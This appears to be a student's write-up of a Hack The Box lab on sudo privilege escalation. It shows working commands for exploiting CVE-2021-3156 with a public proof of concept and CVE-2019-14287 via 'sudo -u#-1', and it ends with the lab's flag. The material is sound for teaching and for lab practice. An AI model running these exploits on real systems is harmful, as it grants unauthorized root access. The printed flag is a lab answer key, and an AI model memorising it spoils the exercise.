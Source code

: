 # Sudo

The `/etc/sudoers` file specifies which users or groups are allowed to run specific programs and with what privileges.

```shell-session
cry0l1t3@nix02:~$ sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
[sudo] password for cry0l1t3:  **********

Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
Defaults        use_pty
root            ALL=(ALL:ALL) ALL
%admin          ALL=(ALL) ALL
%sudo           ALL=(ALL:ALL) ALL
cry0l1t3        ALL=(ALL) /usr/bin/id
@includedir     /etc/sudoers.d
```

One of the latest vulnerabilities for `sudo` carries the CVE-2021-3156 and is based on a heap-based buffer overflow vulnerability. This affected the sudo versions:

* 1.8.31 - Ubuntu 20.04
* 1.8.27 - Debian 10
* 1.9.2 - Fedora 33
* and others

To find out the version of `sudo`, the following command is sufficient:

```shell-session
cry0l1t3@nix02:~$ sudo -V | head -n1

Sudo version 1.8.31
```

There is also a public [Proof-Of-Concept](https://github.com/blasty/CVE-2021-3156) that can be used for this.

```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/blasty/CVE-2021-3156.git
cry0l1t3@nix02:~$ cd CVE-2021-3156
cry0l1t3@nix02:~$ make

rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
```

```shell-session
cry0l1t3@nix02:~$ ./sudo-hax-me-a-sandwich 1

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **

# id

uid=0(root) gid=0(root) groups=0(root)
```

the number after the exploits is from the list of vulnerable versions

```shell-session
  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------
```

### Sudo Policy Bypass

vulnerability found in 2019 that affected all versions below `1.8.28`. This vulnerability has the [CVE-2019-14287](https://www.sudo.ws/security/advisories/minus\_1\_uid/) and requires only a single prerequisite. It had to allow a user in the `/etc/sudoers` file to execute a specific command.

```shell-session
cry0l1t3@nix02:~$ sudo -l
[sudo] password for cry0l1t3: **********

User cry0l1t3 may run the following commands on Penny:
    ALL=(ALL) /usr/bin/id
```

The ID of the specific user can be read from the `/etc/passwd` file.

```shell-session
cry0l1t3@nix02:~$ cat /etc/passwd | grep cry0l1t3

cry0l1t3:x:1005:1005:cry0l1t3,,,:/home/cry0l1t3:/bin/bash
```

Thus the ID for the user `cry0l1t3` would be `1005`. If a negative ID (`-1`) is entered at `sudo`, this results in processing the ID `0`, which only the `root` has. This, therefore, led to the immediate root shell.

```shell-session
cry0l1t3@nix02:~$ sudo -u#-1 id

root@nix02:/home/cry0l1t3# id

uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```

## Assessment

Escalate the privileges and submit the contents of flag.txt as the answer.

<figure><img src="../../../.gitbook/assets/image (97).png" alt=""><figcaption><p>make sure to move entire directory fo the exploit</p></figcaption></figure>

```shell-session
# id
uid=0(root) gid=0(root) groups=0(root),1001(htb-student)
# ls
Makefile  README.md  brute.sh  hax.c  lib.c  libnss_X  sudo-hax-me-a-sandwich
# cd /root
# ls
flag.txt  snap
# cat flag.txt
HTB{SuD0_e5c4l47i0n_1id}
```
